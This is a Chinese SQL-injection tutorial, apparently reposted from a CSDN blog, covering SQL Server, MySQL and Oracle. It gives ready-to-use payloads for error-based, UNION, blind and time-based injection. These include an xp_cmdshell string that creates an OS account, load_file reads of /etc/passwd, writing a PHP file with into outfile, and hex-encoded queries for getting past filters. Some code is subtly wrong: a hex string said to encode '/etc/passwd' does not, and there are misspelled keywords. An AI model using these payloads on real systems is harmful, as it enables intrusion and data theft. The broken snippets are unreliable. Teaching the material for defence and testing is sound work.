## SQL 注入原理

SQL 注入攻击指的是通过构建特殊的输入作为参数传入 Web 应用程序，而这些输入大都是 SQL 语法里的一些组合，通过执行 SQL 语句进而执行攻击者所要的操作，其主要原因是程序没有细致地过滤用户输入的数据，致使非法数据侵入系统。

---

## SQL 注入分类

##### 1. 数字型注入

当输入的参数为整型时，则有可能存在数字型注入漏洞。

假设存在一条 URL 为：`HTTP://www.aaa.com/test.php?id=1`
可以对后台的 SQL 语句猜测为：
`SELECT * FROM table WHERE id=1`

**判断数字型漏洞的 SQL 注入点**：
**① 先在输入框中输入一个单引号 `'`**
这样的 SQL 语句就会变为：
`SELECT * FROM table WHERE id=1'`，
不符合语法，所以该语句肯定会出错，导致脚本程序无法从数据库获取数据，从而使原来的页面出现异常。

**② 在输入框中输入 `and 1 = 1`**
SQL 语句变为：
`SELECT * FROM table WHERE id=1 and 1 = 1`
语句正确，执行正常，返回的数据与原始请求无任何差异。

**③ 在数据库中输入 `and 1 = 2`**
SQL 语句变为：
`SELECT * FROM table WHERE id=1 and 1 = 2`
虽然语法正确，语句执行正常，但是逻辑错误，因为 1 = 2 为永假，所以返回数据与原始请求有差异。

如果以上三个步骤全部满足，则程序就可能存在数字型 SQL 注入漏洞。

##### 2. 字符型注入

当输入参数为字符串时，则可能存在字符型注入漏洞。数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而**字符型一般需要使用单引号来闭合。**

字符型注入最关键的是如何**闭合 SQL 语句**以及**注释多余的代码**。

假设后台的 SQL 语句如下：
`SELECT * FROM table WHERE username = 'admin'`

**判断字符型漏洞的 SQL 注入点**：
**① 还是先输入单引号 `admin'` 来测试**
这样的 SQL 语句就会变为：
`SELECT * FROM table WHERE username = 'admin''`。
页面异常。

**② 输入：`admin' and 1 = 1 --`**
注意：在 admin 后有一个单引号 `'`，用于字符串闭合，最后还有一个注释符 `--`(**两条杠后面还有一个空格！！！**)。
SQL 语句变为：
`SELECT * FROM table WHERE username = 'admin' and 1 = 1 --`
页面显示正确。

**③ 输入：`admin' and 1 = 2 --`**
SQL 语句变为：
`SELECT * FROM table WHERE username = 'admin' and 1 = 2 --`
页面错误。

满足上面三个步骤则有可能存在字符型 SQL 注入。

##### 3. 其他类型

其实我觉得 SQL 注入只有两种类型：数字型与字符型。很多人可能会说还有如：Cookie 注入、POST 注入、延时注入等。
的确如此，但这些类型的注入归根结底也是数字型和字符型注入的不同展现形式或者注入的位置不同罢了。

以下是一些常见的注入叫法：

- POST 注入：注入字段在 POST 数据中
- Cookie 注入：注入字段在 Cookie 数据中
- 延时注入：使用数据库延时特性注入
- 搜索注入：注入处为搜索的地方
- base64 注入：注入字符串需要经过 base64 加密

---

## 常见数据库的注入

攻击者对于数据库注入，无非是利用数据库获取更多的数据或者更大的权限，利用的方式可以归结为以下几类：

- 查询数据
- 读写文件
- 执行命令

攻击者对于程序注入，无论任何数据库，无非都是在做这三件事，只不过不同的数据库注入的 SQL 语句不一样罢了。

这里介绍三种数据库的注入：Oracle 11g、MySQL 5.1 和 SQL Server 2008。

### SQL Server

##### 1. 利用错误消息提取信息

SQL Server 数据库是一个非常优秀的数据库，它可以准确地定位错误信息，这对攻击者来说是一件十分美好的事情，因为攻击者可以通过错误消息提取自己想要的数据。

**① 枚举当前表或者列**
假设选择存在这样一张表：

查询 root 用户的详细信息，SQL 语句猜测如下：
`SELECT * FROM user WHERE username = 'root' AND password = 'root'`

攻击者可以利用 SQL Server 特性来获取敏感信息，在输入框中输入如下语句：
`' having 1 = 1 --`
最终执行的 SQL 语句就会变为：
`SELECT * FROM user WHERE username = 'root' AND password = 'root' HAVING 1 = 1 --`

那么 SQL 的执行器可能会抛出一个错误：


攻击者就可以发现当前的表名为 user、而且存在字段 id。

攻击者可以利用此特性继续得到其他列名，输入如下语句：
`' GROUP BY users.id HAVING 1 = 1 --`
则 SQL 语句变为：
`SELECT * FROM user WHERE username = 'root' AND password = 'root' GROUP BY users.id HAVING 1 = 1 --`

抛出错误：

由此可以看到包含列名 username。可以一次递归查询，知道没有错误消息返回位置，这样就可以利用 HAVING 字句得到当表的所有列名。
**注：Select 指定的每一列都应该出现在 Group By 子句中，除非对这一列使用了聚合函数**

**②. 利用数据类型错误提取数据**
如果试图将一个字符串与非字符串比较，或者将一个字符串转换为另一个不兼容的类型，那么 SQL 编辑器将会抛出异常。

如下列 SQL 语句：
`SELECT * FROM user WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users)`

执行器错误提示：

这就可以获取到用户的用户名为 root。因为在子查询 `SELECT TOP 1 username FROM users` 中，将查询到的用户名的第一个返回，返回类型是 varchar 类型，然后要跟 int 类型的 1 比较，两种类型不同的数据无法比较而报错，从而导致了数据泄露。

利用此方法可以递归推导出所有的账户信息：
`SELECT * FROM users WHERE username = 'abc' AND password = 'abc' AND 1 > (SELECT TOP 1 username FROM users WHERE not in ('root'))`。
通过构造此语句就可以获得下一个 用户名；若把子查询中的 username 换成其他列名，则可以获取其他列的信息，这里就不再赘述。

##### 2. 获取元数据

SQL Server 提供了大量视图，便于取得元数据。可以先猜测出表的列数，然后用 UNION 来构造 SQL 语句获取其中的数据。
如：
`SELECT *** FROM *** WHERE id = *** UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES`
若当前表的列数为 2，则可以 UNION 语句获取当前数据库表。具体怎么猜测当前表的列数，后面进行描述。

一些常用的系统数据库视图：

| 数据库视图                 | 说明                                                |
| -------------------------- | --------------------------------------------------- |
| SYS.DATABASES              | SQL Server 中的所有数据库                           |
| SYS.SQL_LOGINS             | SQL Server 中的所有登录名                           |
| INFORMATION_SCHEMA.TABLES  | 当前用户数据库中的所有数据表                        |
| INFORMATION_SCHEMA.COLUMNS | 当前用户数据库中的所有列                            |
| SYS.ALL_COLUMNS            | 用户定义对象和系统对象的所有列的联合                |
| SYS.DATABASE_PRINCIPALS    | 数据库中每个权限或列异常权限                        |
| SYS.DATABASE_FILES         | 存储在数据库中的数据库文件                          |
| SYSOBJECTS                 | 数据库中创建的每个对象 (包括约束、日志以及存储过程) |

##### 3. ORDER BY 子句猜测列数

可以用 ORDER BY 语句来判断当前表的列数。

如：
① `SELECT * FROM users WHERE id = 1`——SQL 执行正常

②`SELECT * FROM users WHERE id = 1 ORDER BY 1` (按照第一列排序)——SQL 执行正常

③ `SELECT * FROM users WHERE id = 1 ORDER BY 2` (按照第二列排序)——SQL 执行正常

④ `SELECT * FROM users WHERE id = 1 ORDER BY 3` (按照第三列排序)——SQL 执行正常

⑤ `SELECT * FROM users WHERE id = 1 ORDER BY 4` (按照第四列排序)——SQL 抛出异常：

由此可以得出，当前表的列数只有 3 列，因为当按照第 4 列排序时报错了。在 Oracle 和 MySql 数据库中同样适用此方法。

在得知列数后，攻击者通常会配合 UNION 关键字进行下一步的攻击。

##### 4. UNION 查询

UNION 关键字将两个或多个查询结果组合为单个结果集，大部分数据库都支持 UNION 查询。但适用 UNION 合并两个结果有如下基本规则：

- **所有查询中的列数必须相同**
- **数据类型必须兼容**

① 用 UNION 查询猜测列数
不仅可以用 ORDER BY 方法来猜测列数，UNION 方法同样可以。

在之前假设的 user 表中有 5 列，若我们用 UNION 联合查询：
`SELECT * FROM users WHERE id = 1 UNION SELECT 1`
数据库会发出异常：

可以通过递归查询，直到无错误产生，就可以得知 User 表的查询字段数：
`UNION SELECT 1,2`、`UNION SELECT 1,2,3`

也可以将 SELECT 后面的数字改为 null、这样不容易出现不兼容的异常。

**② 联合查询敏感信息**
在得知列数为 4 后，可以使用一下语句继续注入：
`UNION SELECT 'x', null, null, null FROM SYSOBJECT WHERE xtype='U'` (注：xtype=‘U’ 表示对象类型是表)

若第一列的数据类型不匹配，数据库会报错，那么可以递归查询，直到语句兼容。等到语句正常执行，就可以将 x 换为 SQL 语句，查询敏感信息。

##### 5. 利用 SQL Server 提供的系统函数

SQL Server 提供了非常多的系统函数，利用该系统函数可以访问 SQL Server 系统表中的信息，而无需使用 SQL 查询语句。

如：

- SELECT suser_name()：返回用户的登录标识名
- SELECT user_name()：基于指定的标识号返回数据库用户名
- SELECT db_name()：返回数据库名
- SELECT is_member(‘db_owner’)：是否为数据库角色
- SELECT convert(int, ‘5’)：数据类型转换

##### 6. 存储过程

存储过程 (Stored Procedure) 是在大型数据库系统中为了完成特定功能的一组 SQL “函数”，如：执行系统命令、查看注册表、读取磁盘目录等。

攻击者最长使用的存储过程是 **“xp_cmdshell”**，这个存储过程允许用户执行操作系统命令。
例如：`http://www.aaa.org/test.aspx?id=1` 中存在注入点，那么攻击者就可以实施命令攻击：
`http://www.aaa.org/test.aspx?id=1；exec xp_cmdshell 'net user test test /add'`

最终执行的 SQL 语句如下：
`SELECT * FROM table WHERE id=1; exec xp_cmdshell 'net user test test /add'`
分号后面的那一段语句就可以为攻击者在对方服务器上新建一个用户名为 test、密码为 test 的用户。
注：并不是任何数据库用户都可以使用此类存储过程，**用户必须持有 CONTROL SERVER 权限**。

常见的危险存储过程如下表：

| 存储过程          | 说明                                                                               |
| ----------------- | ---------------------------------------------------------------------------------- |
| sp_addlogin       | 创建新的 SQL Server 登录，该登录允许用户使用 SQL Server 身份连接到 SQL Server 实例 |
| sp_dropuser       | 从当前数据库中删除数据库用户                                                       |
| xp_enumgroups     | 提供 Microsoft Windows 本地组列表或在指定的 Windows 域中定义全局组列表             |
| xp_regread        | 读取注册表                                                                         |
| xp_regwrite       | 写入注册表                                                                         |
| xp_redeletevalue  | 删除注册表                                                                         |
| xp_dirtree        | 读取目录                                                                           |
| sp_password       | 更改密码                                                                           |
| xp_servicecontrol | 停止或激活某服务                                                                   |

另外，任何数据库在使用一些特殊的函数或存储过程时，都需要特定的权限。常见的 SQL Server 数据库的角色与权限如下：

| 角色          | 权限                                                                                                                                                               |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| bulkadmin     | 可以运行 BULK INSERT 语句                                                                                                                                          |
| dbcreator     | 可以创建、更改、删除和还原任何数据库                                                                                                                               |
| diskadmin     | 可以管理磁盘文件                                                                                                                                                   |
| processadmin  | 可以种植在数据库引擎中运行的实例                                                                                                                                   |
| securityadmin | 可以管理登录名及其属性；可以利用 GRANT、DENY 和 REVOKE 服务器级别的权限；还可以利用 GRANT、DENY 和 REVOKE 数据库级别的权限；此外也可以重置 SQL Server 登录名的密码 |
| serveradmin   | 可以更改服务器范围的配置选项和关闭服务器                                                                                                                           |
| setupadmin    | 可以添加和删除链接服务器，并可以执行某些系统存储过程                                                                                                               |
| sysadmin      | 可以在数据库引擎中执行任何活动                                                                                                                                     |

##### 7. 动态执行

SQL Server 支持动态执行语句，用户可以提交一个**字符串**来执行 SQL 语句。

如：`exec('SELECT username, password FROM users')`

也可以通过定义十六进制的 SQL 语句，使用 exec 函数执行。大部分 Web 应用程序和防火墙都过滤了单引号，利用 exec 执行十六进制 SQL 语句可以突破很多防火墙及防注入程序，如：

```sql
declare @query varchar(888)
select @query=0x73656C6563742031
exec(@query)
123
```

或者：
`declare/**/@query/**/varchar(888)/**/select/**/@query=0x73656C6563742031/**/exec(@query)`

---

### MySQL

前面详细讲述了 SQL Server 的注入过程，在注入其他数据库时，**基本思路是相同的，只不过两者使用的函数或者是语句稍有差异**。

##### 1. MySQL 中的注释

MySQL 支持以下 3 中注释风格：

- “#”： 注释从 “#” 到行尾
- "-- " ：注释从 “-- ”序列到行位，需要注意的是使用此注释时，后面需要跟上空格
- /\*_/：注释从 /_ 到 \*/ 之间的字符

##### 2. 获取元数据

MySQL 5.0 及其以上版本提供了 INFORMATION_SCHEMA，这是一个信息数据库，它提供了访问数据库元数据的方式。下面介绍如何从中读取数据库名称、表名称以及列名称。

① 查询用户数据库名称
`SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA`
INFORMATION_SCHEMA.SCHEMATA 表提供了关于数据库的信息。

② 查询当前数据表
`SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = (SELECT DATABASE())`
INFORMATION_SCHEMA.TABLES 表给出了数据库中表的信息。

③ 查询指定表的所有字段
`SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = '***'`
INFORMATION_SCHEMA.COLUMNS 表中给出了表中的列信息。

##### 3. UNION 查询

与 SQL Server 大致相同，此处不赘述。

##### 4. MySQL 函数利用

无论是 MySQL、Oracle 还是其他数据库都内置了许多系统函数，这些数据库函数都非常类似，接下来介绍一些对渗透测试人员很有帮助的 MySQL 函数。

**① load_file() 函数读文件操作**
MySQL 提供了 load_file() 函数，可以帮助用户快速读取文件，但文件的位置必须在服务器上，文件必须为绝对路径，且用户必须有 FILE 权限，文件容量也必须小于 max_allowed_packet 字节 (默认为 16MB，最大为 1GB)。

SQL 语句如下：
`UNION SELECT 1, load_file('/etc/passwd'), 3, 4 #`

通常一些防注入语句不允许单引号出现，那么可以使用一下语句绕过：
`UNION SELECT 1, load_file(0x2F6561342F706173737764), 3, 4 #`
“0x2F6561342F706173737764” 为 “/etc/passwd” 的十六进制转换结果。

在浏览器返回数据时，有可能存在乱码问题，那么可以使用 hex() 函数将字符串转换为十六进制数据。

**② into outfile 写文件操作**
MySQL 提供了向磁盘写文件的操作，与 load_file() 一样，必须有 FILE 权限，并且文件必须为全路径名称。

写入文件：
`SELECT '<?php phpinfo();?>' into oufile 'C:\wwwroot\1.php'`

**③ 连接字符串**
MySQL 如果需要一次查询多个数据，可以使用 concat() 或 concat_ws() 函数来完成。

`SELECT name FROM student WHERE id = 1 UNION SELECT concat(user(), ',', database(), ',', version())`;

也可以将逗号改用十六进制表示：0x2c

##### 5. MySQL 显错式注入

MySQL 也存在显错式注入，可以像 SQL Server 数据库那样，使用错误提取消息。

**① 通过 updatexml 函数执行 SQL 语句**

首先了解下 updatexml()函数：
updatexml (XML_document, XPath_string, new_value);
第一个参数：`XML_document`是 String 格式，为 XML 文档对象的名称；
第二个参数：`XPath_string` (Xpath 格式的字符串) ，
第三个参数：`new_value`，String 格式，替换查找到的符合条件的数据

`SELECT * FROM message WHERE id = 1 and updatexml(1, (concat(0x7c, (SELECT @@version))), 1)`
其中的 concat()函数是将其连成一个字符串，因此不会符合 XPATH_string 的格式，从而出现格式错误，报错，会显示出无法识别的内容：


**② 通过 extractvalue 函数**
`SEELCT * FROM message WHERE id= 1 AND extravtvalue(1, concat(0x7c, (SELECT user())))`
同样报错显示出当前用户：


##### 6. 宽字节注入

宽字节注入是由**编码不统一**所造成的，这种注入**一般出现在 PHP + MySQL**中。

在 PHP 配置文件 php.ini 中存在 magic_quotes_gpc 选项，被称为魔术引号，当此选项被打开时，**使用 GET、POST、Cookie 所接受的 单引号(’)、双引号(")、反斜线() 和 NULL 字符都会自动加上一个反斜线转义**。

如下使用 PHP 代码使用 \$\_GET 接收参数：


如访问 URL：`http:/www.xxser.com/Get.php?id='`，显示如下：


单引号`'`被转义后就变成了`\'`，在 MySQL 中，`\'`是一个合法的字符，也就没办法闭合单引号，所以，注入类型是字符型时无法构成注入。

但是若是输入：`%d5'`，访问 URL：`http:/www.xxser.com/Get.php?id=%d5'`，显示如下：

可以发现，这次单引号没有被转义，这样就可以突破 PHP 转义，继续闭合 SQL 语句进行 SQL 注入。

##### 7. MySQL 长字符截断

MySQL 超长字符截断又名 “SQL-Column-Truncation”。
在 MySQL 中的一个设置里有一个 sql_mode 选项，当 sql_mode 设置为 default 时，即没有开启 STRICT——ALL_TABLES 选项时，MySQL 对插入超长的值只会提示 waring，而不是 error。

假设有一张表如下：

username 字段的长度为 7。

分别插入一下 SQL 语句：
① 插入正常 SQL 语句：
`INSERT users(id, username, password) VALUES(1, 'admin', 'admin');`

成功插入。

② 插入错误的 SQL 语句，使 username 字段的长度超过 7：
`INSERT users(id, username, password) VALUES(2, 'admin ', 'admin');`

虽然有警告，但是成功插入了。

③ 再尝试插入一条错误的 SQL 语句，长度同一超过原有的规定长度：
`INSERT users(id, username, password) VALUES(3, 'admin x), 'admin;`


查询数据库：

可以看到，三条数据都被插入到数据库中，但是值发生了变化。在默认情况下，如果数据超出默认长度，MySQL 会将其阶段。

但是这样怎么攻击呢？通过查询用户名为 admin 的用户：

可以发现，只查询用户名为 admin 的用户，但是另外两个长度不一致的 admin 用户也被查询出，这样就会造成一些安全问题。

比如有一处管理员登录时这样判断的：
`$sql = "SELECT count(*) FROM users WHERE username = 'admin' AND password = '***'";`

那么攻击者只需要注册一个长度超过规定长度的用户名“admin ”即可轻易进入后台管理页面。

##### 8. 延时注入

延时注入属于盲注技术的一种，是一种基于时间差异的注入技术。下面以 MySQL 为例介绍延时注入。

在 MySQL 中有一个函数：sleep(duration)，这个函数意思是在 duration 参数给定数秒后运行语句，如下 SQL 语句：
`SELECT * FROM users WHERE id = 1 AND sleep(3)`
就是将在 3 秒后执行该 SQL 语句。

**可以使用这个函数来判断 URL 是否存在 SQL 注入漏洞**，步骤如下：

通过页面返回的世界可以断定，DBMS 执行了 `and sleep(3)` 语句，这样一来就可以判断出 URL 存在 SQL 注入漏洞。

然后通过 sleep() 函数还可以读出数据，但需要其他函数的配合，步骤如下：
**① 查询当前用户，并取得字符串长度**
执行 SQL 语句：
`AND if(length(user()) = 0, sleep(3), 1)`
如果出现 3 秒延时，就可以判断出 user 字符串长度，注入时通常会采用折半算法减少判断。

② 截取字符串第一个字符，并转换为 ASCII 码
`AND if(hex(mid(user(), 1, 1)) = 1, sleep(3), 1)`
`AND if(hex(mid(user(), 1, 1)) = 2, sleep(3), 1)`
……
不断更换 ASCII 码直到出现延时 3 秒就可以猜测出第一个字符。

③ 递归截取字符串每一个字符，分别于 ASCII 码比较
`AND if(hex(mid(user(), L, 1)) = N, sleep(3), 1)`
注：L 的位置代表字符串的第几个字符，N 的位置代表 ASCII 码。

不仅在 MySQL 中存在延时函数，在 SQL Server、Oracle 等数据库中也都存在类似功能的函数，如 SQL Server 的 waitfor delay、Oracle 中的 DBMS_LOCK.SLEEP 等函数。

---

### Oracle

##### 1. 获取元数据

Oracle 也支持查询元数据，下面是 Oracle 注入常用的元数据视图：
① user_tablespaces 视图，查看表空间
`SELECT tablespace_name FROM user_tablespaces`

② user_tables 视图，查看当前用户的所有表
`SELECT table_name FROM user_tables WHERE rownum = 1`

③ user_tab_columns 视图，查看当前用户的所有列，如查询 user 表的所有列：
`SELECT column_name FROM user_tab_columns WHERE table_name = 'users'`

④ all_users 视图，查看 ORacle 数据库的所有用户
`SELECT username FROM all_users`

⑤ user_objects 视图，查看当前用户的所有对象 (表名称、约束、索引)
`SELECT object_name FROM user_objects`

##### 2. UNION 查询

Oracle 与 MySQL 一样不支持多语句执行，不像 SQL Server 那样可以用分号隔开从而注入多条 SQL 语句。

**① 获取列的总数**
获取列总数方法与前面两种数据库类似，依然可以使用 ORDER BY 子句来完成。

另一种方法是利用 UNION 关键字来确定，但是 **Oracle 规定，每次查询时后面必须跟表的名称，否则查询将不成立**。

在 Oracle 中可以使用：
`UNION SELECT null, null, null …… FROM dual`
这里的 dual 是 Oracle 中的虚拟表，在不知道数据库中存在哪些表的情况下，可以使用此表作为查询表。

然后获取非数字类型列，即**可以显示出信息**的列：
`UNION SELECT 'null', null, null, …… FROM dual`
`UNION SELECT null, 'null', null, …… FROM dual`

把每一位的 `null` 依次用单引号 ’ 引起来，**如果报错，则不是字符串类型的列**；如果**返回正常，则是字符串类型的列**，就可以在相应的位置插入查询语句获取信息。

**② 获取敏感信息**
常见的敏感信息如下：

- 当前用户权限：`SELECT * FROM session_roles`
- 当前数据库版本：`SELECT banner FROM sys.v_$version WHERE rownum = 1`
- 服务器出口 IP：用`utl_http.request` 可以实现
- 服务器监听 IP：`SELECT utl_inaddr.get_host_address FROM dual`
- 服务器操作系统：`SELECT member FROM v$logfile WHERE rownum = 1`
- 服务器 SID：`SELECT instance_name FROM v$instance`
- 当前连接用户：`SELECT SYS_CONTEXT('USERENV', 'CURRENT_USER') FROM dual`

**③ 获取数据库表及其内容**
在得知表的列数之后，可以通过查询元数据的方式查询表名称、列名称，然后查询数据，如：
`http://www.aaa.org/new.jsp?id=1 UNION SELECT username, password, null FROM users --`
注意：在查询数据时同样要注意数据类型，否则无法查询，只能一一测试，改变参数的查询位置。

引用网站:https://blog.csdn.net/weixin_43915762/article/details/87909751
